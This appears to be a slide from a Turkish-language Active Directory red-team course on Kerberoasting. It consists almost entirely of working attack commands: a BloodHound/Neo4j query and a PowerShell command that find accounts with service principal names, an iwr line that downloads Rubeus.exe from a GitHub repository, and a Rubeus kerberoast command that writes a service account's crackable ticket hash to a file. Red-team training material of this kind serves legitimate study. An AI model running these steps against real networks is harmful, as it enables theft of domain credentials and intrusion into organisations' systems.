

# TTP 0x6 – Kerberoasting - Exploitation
# Kerberoastable Kullanıcıların Neo4j sorgusu ile tespit edilmesi
MATCH (u:User {hasspn: true}) RETURN u
# Kerberoastable Kullanıcıların Powershell ile tespit edilmesi
Get-ADUser -Filter {serviceprincipalname -like "*"} -Properties serviceprincipalname | Format-Table
# Rubeus.exe aracı eğitim reposundan indiriliyor
iwr -Uri https://github.com/forestallio/ActiveDirectoryRedTeaming/raw/main/Rubeus.exe -OutFile Rubeus.exe
# Kerberoastable kullanıcının hash bilgisinin elde edilmesi
.\Rubeus.exe kerberoast /user: /outfile:hash.txt